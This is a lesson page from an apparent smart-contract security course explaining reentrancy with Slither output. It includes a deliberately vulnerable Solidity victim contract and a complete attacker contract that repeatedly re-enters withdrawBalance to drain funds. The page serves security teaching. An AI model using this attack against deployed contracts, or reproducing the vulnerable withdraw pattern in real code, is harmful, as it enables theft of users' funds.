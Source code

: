 ```yaml
---
title: Exploit - Reentrancy
---
```


_Follow along with this video:_

---

Let's see if we can nail down this vulnerability. When we'd run `Slither` earlier, you may recall it had actually found something...

Run it again and we'll have a closer look.

```bash
slither .
```

Looking through the output, we can see `Slither` is in fact detecting things in our `refund` function!

::image{src='/security-section-4/18-exploit-reentrancy/exploit-reentrancy1.png' style='width: 75%; height: auto;'}

### What is a re-entrancy attack and how does it work?

For this lesson we'll be heavily leaning on our [**sc-exploits-minimized**](https://github.com/Cyfrin/sc-exploits-minimized) repo for diagrams and examples to reference. Be sure to clone it so you can see how these vulnerabilities work locally.

Here's our example contract:

```js
contract ReentrancyVictim {
    mapping(address => uint256) public userBalance;

    function deposit() public payable {
        userBalance[msg.sender] += msg.value;
    }

    function withdrawBalance() public {
        uint256 balance = userBalance[msg.sender];
        // An external call and then a state change!
        // External call
        (bool success,) = msg.sender.call{value: balance}("");
        if (!success) {
            revert();
        }

        // State change
        userBalance[msg.sender] = 0;
    }
}
```

Fairly simple. Under normal circumstances

User A (balance 10 ether) can deposit funds

1. deposit{value: 10 ether}

   <br>userBalance[UserA] = 10 ether
   <br>contract balance = 10 ether
   <br>User A balance = 0 ether

And then withdraw them

2. withdrawBalance

   <br>userBalance[UserA] = 0 ether
   <br>contract balance = 0 ether
   <br>User A balance = 10 ether

The order of operations is reeally important in these situations. In our `withdrawBalance` function, we see that the function is making an external call _before_ updating the state of the contract.

What this means, is that an attacker could have that external call be made in such a way that it triggers a call of the `withdrawBalance` function again (hence - reentrancy).

```js
contract ReentrancyAttacker {
    ReentrancyVictim victim;

    constructor(ReentrancyVictim _victim) {
        victim = _victim;
    }

    function attack() public payable {
        victim.deposit{value: 1 ether}();
        victim.withdrawBalance();
    }

    receive() external payable {
        if (address(victim).balance >= 1 ether) {
            victim.withdrawBalance();
        }
    }
}
```

Consider the above attack contract. Seems pretty benign, but let's walk through what's actually happening.

1. Attacker calls the attack function which deposits 1 ether, then immediately withdraws it.

```js
function attack() public payable {
        victim.deposit{value: 1 ether}();
        victim.withdrawBalance();
    }
```

2. The `ReentrancyVictim` contract does what's it's supposed to and received the deposit, then processs the withdrawal. During this process the victim contract makes a call to the attacker's contract.

**NOTE: THIS IS BEFORE OUR BALANCE HAS BEEN UPDATED**

```js
(bool success,) = msg.sender.call{value: balance}("");
        if (!success) {
            revert();
        }
```

What happens when a contract receives value? It's going have it's receive/fallback functions triggered. And what does our Attacker's receive function look like?

```js
receive() external payable {
        if (address(victim).balance >= 1 ether) {
            victim.withdrawBalance();
        }
    }
```

It calls the `withdrawBalance` function again! Because our previous `withdrawBalance` hasn't updated our balance yet, the contract will happily let us withdraw again.. and again .. and again until all funds are drained.

Let's look at this all put together.

::image{src='/security-section-4/18-exploit-reentrancy/exploit-reentrancy2.png' style='width: 75%; height: auto;'}

### Wrap Up

Re-entrancy is a a big deal and it's very impactful when it happens. We're really going to nail down our understanding of this attack vector before moving on.

At it's most minimalistic, re-entrancy generates a loop that continually drains funds from a protocol.

::image{src='/security-section-4/18-exploit-reentrancy/exploit-reentrancy3.png' style='width: 75%; height: auto;'}

Our next lesson is going to be a hands on example of this vulnerability in Remix. Let's see what this exploit is like in action.
